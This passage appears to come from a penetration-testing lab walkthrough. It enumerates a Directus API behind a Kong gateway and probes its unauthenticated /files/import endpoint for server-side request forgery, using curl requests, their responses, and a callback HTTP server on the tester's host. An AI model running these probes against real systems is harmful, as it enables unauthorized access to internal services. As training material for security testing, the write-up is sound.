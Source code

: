 - `/files/import` and `/users/invite` returned `400 Bad Request` for `POST` request instead of HTTP `403 Forbidden`, **suggesting the endpoints are active and expecting input**, but malformed request has been sent.
- A `POST` to `/files/import` revealed an error: `"url" is required`, indicating the API expects a `url` parameter.
```bash
──(kali㉿kali)-[~]
└─$ curl -i -X POST http://apigateway:8000/files/import             
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Content-Length: 86
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"56-egVc9WbgXViwv0ZIaPJS4bmcvSo"
Date: Mon, 28 Jul 2025 18:02:05 GMT
X-Kong-Upstream-Latency: 14
X-Kong-Proxy-Latency: 1
Via: kong/2.2.1

{"errors":[{"message":"\"url\" is required","extensions":{"code":"INVALID_PAYLOAD"}}]}                                                                                                                          
┌──(kali㉿kali)-[~]
└─$
```
- The `/files/import` endpoint is **unauthenticated**, active, and potentially vulnerable to Server-Side Request Forgery (SSRF).
- Any time we discover an API or web form that includes a `url` parameter, we always want to check it for a Server-Side Request Forgery vulnerability.

## Server-Side Request Forgery Discovery
Server-Side Request Forgery (SSRF) is a vulnerability where an attacker tricks a server into making unauthorized requests. Because the request originates from the server, it may access internal resources, such as services on localhost, internal IP ranges, or systems behind firewalls or reverse proxies.

We always want to check `url` parameters in an API or web form for an SSRF vulnerability. 

First, let's determine if we can make it connect back to our Kali machine. We'll need to make sure our HTTP server is running.
```bash
┌──(kali㉿kali)-[~]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Since the server returned the error as a JSON message, let's make our POST request use JSON as well.
```bash
┌──(kali㉿kali)-[~]
└─$ curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://192.168.45.203/ssrftest"}' http://apigateway:8000/files/import
HTTP/1.1 500 Internal Server Error
Content-Type: application/json; charset=utf-8
Content-Length: 108
Connection: keep-alive
X-Powered-By: Directus
Vary: Origin
Access-Control-Allow-Credentials: true
Access-Control-Expose-Headers: Content-Range
ETag: W/"6c-qz7bVW5hKPsQy2fT0mRPx8X4tuc"
Date: Mon, 28 Jul 2025 18:07:42 GMT
```